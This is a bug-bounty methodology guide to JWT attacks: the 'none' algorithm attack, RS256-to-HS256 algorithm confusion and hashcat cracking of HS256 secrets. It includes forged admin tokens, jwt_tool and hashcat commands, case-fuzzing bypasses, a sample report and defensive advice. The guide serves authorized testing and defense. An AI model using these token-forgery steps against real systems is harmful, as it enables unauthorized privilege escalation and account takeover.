

# JWT Forgery & Algorithm Confusion

## When to Use
- When HTTP requests utilize an `Authorization: Bearer <token>` consisting of three base64url-encoded strings separated by periods (`header.payload.signature`).
- When encountering stateless authentication mechanisms storing user identifiers or roles (e.g., `{"role": "user", "uid": 12}`) directly within the token payload.
- To escalate user privileges by forging the signature of a token claiming admin status.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Decoding and Inspection

```text
# Concept: A JWT is simply Base64URL encoded JSON. You can read the contents without the secret key.

# 1. Base JWT Structure:
# HEADER.PAYLOAD.SIGNATURE
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.H0C3aXZ5K...

# 2. Decode using jwt.io, Burp Suite (JSON Web Tokens extension), or Base64 decoding
HEADER:  {"alg": "RS256", "typ": "JWT"}
PAYLOAD: {"user": "hacker", "role": "guest", "exp": 171822211}

# 3. Identify your target manipulation
If you change `"guest"` to `"admin"`, the signature will immediately invalidate. We must forge a valid signature.
```

### Phase 2: The "None" Algorithm Attack

```text
# Concept: Some JWT libraries insecurely trust the "alg" specified in the header. 
# If we change the algorithm to "none", the library assumes no signature is required.

# 1. Modify the Header to define "none"
{"alg": "none", "typ": "JWT"} -> eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# 2. Modify the Payload to elevate privileges
{"user": "hacker", "role": "admin"} -> eyJ1c2VyIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0

# 3. Assemble and Strip the Signature
# Notice the trailing dot. We must leave the dot to indicate the payload section has finished, but omit the signature.
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0.

# 4. Attempt the request.
GET /admin/dashboard HTTP/1.1
Authorization: Bearer eyJhbG...

# Bypasses: If the backend filters `none`, fuzz the case: `None`, `NONE`, `nOnE`.
```

### Phase 3: Algorithm Confusion Attack (RS256 -> HS256)

```text
# Concept: RS256 uses Asymmetric Keys (Public key to verify, Private key to sign).
# HS256 uses Symmetric Keys (One secret to both sign AND verify).
# Flaw: If an attacker changes the header from RS256 to HS256, the server insecurely uses its Public Key 
# as the "symmetric secret" to verify the token. 
# Since Public Keys are often accessible (e.g., on `/jwks.json`), the attacker can sign the token using the Public Key!

# 1. Retrieve the Public Key exposed by the application
GET /.well-known/jwks.json
# Save it as `public.pem`.

# 2. Craft the malicious token payload
Header: {"alg": "HS256"}
Payload: {"role": "admin"}

# 3. Sign it using the PUBLIC key as an HMAC secret (via jwt-tool)
python3 jwt_tool.py -I -hc alg -hv HS256 -S hs256 -k public.pem <Original_JWT>

# 4. The server receives the HS256 token, loads the Public Key from memory (expecting to verify an RS256 token),
# executes the HS256 HMAC math using the Public Key structure as a string, and validates your token!
```

### Phase 4: Offline Secret Cracking (HS256)

```bash
# Concept: Developers often use extremely weak secrets string like "secret123" for HS256 tokens.

# 1. Save your JWT to a file (token.txt)
# 2. Use Hashcat to crack the signing secret.
hashcat -a 0 -m 16500 token.txt rockyou.txt

# 3. If cracked (e.g., the secret was "apple"), sign your own admin tokens.
python3 jwt_tool.py -I -S hs256 -p "apple" <Original_JWT>
```

#### Decision Point 🔀



## 🔵 Blue Team Detection & Defense
- **Hardcode the Algorithm**: Never blindly trust the `"alg"` parameter specified in the incoming JWT Header. The verification API call must strictly hardcode the expected algorithm.
  - VULNERABLE: `jwt.verify(token, key)` (Automatically pulls algorithm from header)
  - SECURE: `jwt.verify(token, key, algorithms=["RS256"])` (Throws exception if token tries to switch to None or HS256)
- **Strong Secrets**: If using symmetric HS256, cryptographically generate a random secret possessing at least 256 bits of entropy. A human-readable string is vulnerable to offline, extremely rapid Hashcat GPU cracking.
- **Library Updates**: The classic "none" and Algorithm Confusion attacks exploit logical flaws present in older, deprecated JWT libraries (pre-2018). Ensure all dependencies are patched.

## Key Concepts
| Concept | Description |
|---------|-------------|
| JWT | JSON Web Token; a compact, URL-safe means of representing claims (authentication data) securely between two parties |
| Base64URL | A variation of Base64 encoding utilizing a web-safe alphabet (omitting `+` and `/`) preventing parsing errors in HTTP headers |
| JWKS | JSON Web Key Set; an endpoint commonly exposed by OAuth providers revealing the cryptographic public keys used to mathematically verify JWT signatures |
| HMAC | Hash-based Message Authentication Code; providing data integrity and authenticity using a secret shared key (HS256) |

## Output Format
```
Bug Bounty Report: Authentication Bypass via JWT Algorithm Confusion
====================================================================
Vulnerability: Authorization Bypass (Algorithm Confusion RS256 -> HS256)
Severity: Critical (CVSS 9.1)
Target: `Authorization: Bearer <token>` validation microservice

Description:
The authentication microservice relies on the vulnerable `python-jwt v2.0.1` library. While the application issues RSA 256 generated tokens, it insecurely parses the `alg` header during the verification phase.

By downloading the target's public key from `https://target.com/.well-known/jwks.json`, altering the JWT header to utilize the symmetric `HS256` algorithm, and subsequently signing the token locally using the public key file as an HMAC string, an attacker can mathematically forge valid authorization tokens.

Reproduction Steps:
1. Capture standard user JWT.
2. Obtain target public certificate `pub.pem`.
3. Construct payload: `{"role": "superuser", "id": 1}`.
4. Execute token generation utilizing jwt-tool:
   `python3 jwt_tool.py -I -hc alg -hv HS256 -S hs256 -k pub.pem <jwt>`
5. Submit the newly minted token to the `/api/v1/billing` endpoint.

Impact:
Unauthenticated critical vertical privilege escalation. Attacker can act as any administrative user.
```


## 📚 Shared Resources
> For cross-cutting methodology applicable to all vulnerability classes, see:
> - [`_shared/references/elite-chaining-strategy.md`](../_shared/references/elite-chaining-strategy.md) — Exploit chaining methodology and high-payout chain patterns
> - [`_shared/references/elite-report-writing.md`](../_shared/references/elite-report-writing.md) — HackerOne-optimized report writing, CWE quick reference
> - [`_shared/references/real-world-bounties.md`](../_shared/references/real-world-bounties.md) — Verified disclosed bounties by vulnerability class

## References
- PortSwigger: [JWT Attacks](https://portswigger.net/web-security/jwt)
- OWASP: [JSON Web Token (JWT) Vulnerabilities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)
- jwt-tool: [Tool Repository](https://github.com/ticarpi/jwt_tool)
